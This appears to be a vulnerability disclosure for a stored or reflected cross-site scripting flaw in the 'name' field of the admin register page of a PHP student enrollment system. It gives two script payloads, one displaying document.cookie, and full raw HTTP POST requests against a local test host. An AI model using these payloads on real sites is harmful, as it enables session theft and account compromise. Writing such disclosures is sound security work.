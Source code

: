 # Online Student Enrollment System v1.0 by donbermoy has Cross-site scripting

BUG_Author: mkwsj007

vendors:https://www.sourcecodester.com/php/14281/online-student-enrollment-system-using-phpmysqli.html

Vulnerability File: /student_enrollment/admin/register.php

POST parameter 'name' exists Cross-site scripting vulnerability

Payload1: a"><script>alert(1)</script>b

![image](https://github.com/mkwsj007/pic/blob/main/one.png)

```
POST /student_enrollment/admin/register.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 797
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMkbv5jtnvqBtc9PG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/student_enrollment/admin/register.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=j9loi161fde5rq6oo1jkuelrcn
Connection: close

------WebKitFormBoundaryMkbv5jtnvqBtc9PG
Content-Disposition: form-data; name="name"

a"><script>alert(1)</script>b
------WebKitFormBoundaryMkbv5jtnvqBtc9PG
Content-Disposition: form-data; name="email"

c@gmail.com
------WebKitFormBoundaryMkbv5jtnvqBtc9PG
Content-Disposition: form-data; name="username"

d
------WebKitFormBoundaryMkbv5jtnvqBtc9PG
Content-Disposition: form-data; name="password"

e
------WebKitFormBoundaryMkbv5jtnvqBtc9PG
Content-Disposition: form-data; name="c_password"

e
------WebKitFormBoundaryMkbv5jtnvqBtc9PG
Content-Disposition: form-data; name="photo"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryMkbv5jtnvqBtc9PG
Content-Disposition: form-data; name="register"


------WebKitFormBoundaryMkbv5jtnvqBtc9PG--
```

![image](https://github.com/mkwsj007/pic/blob/main/two.png)

Payload2: a"><script>alert(document.cookie)</script>b

![image](https://github.com/mkwsj007/pic/blob/main/three.png)

```
POST /student_enrollment/admin/register.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 811
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryo4AaLx6Ali4mxyDj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/student_enrollment/admin/register.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=j9loi161fde5rq6oo1jkuelrcn
Connection: close

------WebKitFormBoundaryo4AaLx6Ali4mxyDj
Content-Disposition: form-data; name="name"

a"><script>alert(document.cookie)</script>b
------WebKitFormBoundaryo4AaLx6Ali4mxyDj
Content-Disposition: form-data; name="email"

c@gmail.com
------WebKitFormBoundaryo4AaLx6Ali4mxyDj
Content-Disposition: form-data; name="username"

d
------WebKitFormBoundaryo4AaLx6Ali4mxyDj
Content-Disposition: form-data; name="password"

e
------WebKitFormBoundaryo4AaLx6Ali4mxyDj
Content-Disposition: form-data; name="c_password"

e
------WebKitFormBoundaryo4AaLx6Ali4mxyDj
Content-Disposition: form-data; name="photo"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryo4AaLx6Ali4mxyDj
Content-Disposition: form-data; name="register"


------WebKitFormBoundaryo4AaLx6Ali4mxyDj--
```

![image](https://github.com/mkwsj007/pic/blob/main/cookie.png)
